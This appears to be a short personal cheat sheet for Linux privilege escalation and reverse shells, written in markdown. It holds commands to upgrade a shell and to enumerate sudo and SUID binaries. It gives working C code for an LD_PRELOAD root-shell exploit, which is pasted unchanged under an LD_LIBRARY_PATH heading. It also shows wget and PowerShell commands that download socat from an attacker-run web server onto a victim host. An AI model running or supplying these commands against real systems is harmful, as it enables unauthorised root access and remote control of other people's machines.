 # PrivEscalation

1. **python -c 'import pty;pty.spawn("/bin/bash")'** <== for a better listener shell experience

2. ** sudo -l **

3. **find / -perm /6000 2>/dev/null | grep '/bin'** <== find interesting tools that can exploit shell

4. https://gtfobins.github.io/ followed the interesting tools that can exploit 

5. 
### Take advantage of LD_PRELOAD in evn_keep

```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
### Take advantage of LD_LIBRARY_PATH in evn_keep
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```


6. 
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker


# Reverse Shell:
1. https://www.revshells.com/
2. MonkeyPenTest
3. Start webserver using python "sudo python3 -m http.server 80" then download files from victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

